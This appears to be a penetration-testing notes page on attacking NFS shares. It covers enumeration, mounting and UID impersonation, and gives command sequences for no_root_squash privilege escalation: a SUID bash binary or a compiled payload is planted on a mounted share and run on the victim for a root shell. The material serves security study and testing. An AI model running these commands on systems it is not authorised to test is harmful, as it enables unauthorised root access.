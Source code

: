 ```yaml
---
Ports: 2049
Description: It is a client/server system that allows users to access files across a network and treat them as if they resided in a local file directory.
---
```


# Enumeration

- [NSE (Nmap Scripting Engine)](../Tools/nmap.md#NSE%20(Nmap%20Scripting%20Engine))

```bash
nfs-ls #List NFS exports and check permissions
nfs-showmount #Like showmount -e
nfs-statfs #Disk statistics and info from NFS share
```

- [msfconsole (auxiliary modules)](../Tools/msfconsole.md#Auxiliary%20Modules)

```bash
scanner/nfs/nfsmount #Scan NFS mounts and list permissions
```

## Mounting

- [showmount](../Tools/showmount.md)

```
showmount -e <IP>	# To know which folder has the server available to mount you an ask it using:
```

- mount

```
mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock

# Example
mkdir /mnt/new_back
mount -t nfs [-o vers=2] 10.12.0.150:/backup /mnt/new_back -o nolock
```

---

# Exploitation

## Permissions

If you mount a folder which contains **files or folders only accessible by some user** (by **UID**). You can **create** **locally** a user with that **UID** and using that **user** you will be able to **access** the file/folder.

---

# Privilege Escalation

## NFS no_root_squash/no_all_squash misconfiguration PE (Remote)

Read the `/etc/exports` file, if you find some directory that is configured as `no_root_squash`, then **you can access it from as a client and write inside that directory as if you were the local root** of the machine.

**`no_root_squash`**: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**`no_all_squash`**: This is similar to `no_root_squash` option but applies to non-root users. Imagine, you have a shell as nobody user; checked `/etc/exports` file; no_all_squash option is present; check `/etc/passwd` file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

- **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder the **`/bin/bash`** binary and giving it **SUID** rights, and **executing from the victim** machine that bash binary.

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

- **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder our come compiled payload that will abuse the SUID permission, give to it **SUID** rights, and **execute from the victim** machine that binary. [^1]

[^1]: [C](../Web%20&%20Network%20Hacking/Reverse%20Shell%20Cheatsheet.md#C)

```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```

## NFS no_root_squash/no_all_squash misconfiguration PE (Local)

- https://www.errno.fr/nfs_privesc.html
- [https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe#local-exploit](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe#local-exploit)

---

# Misc

## Config files

```
/etc/exports
/etc/lib/nfs/etab
```

## Other tools

- [NFSShell](https://github.com/NetDirect/nfsshell) (to easily list, mount and change UID and GID to have access to files)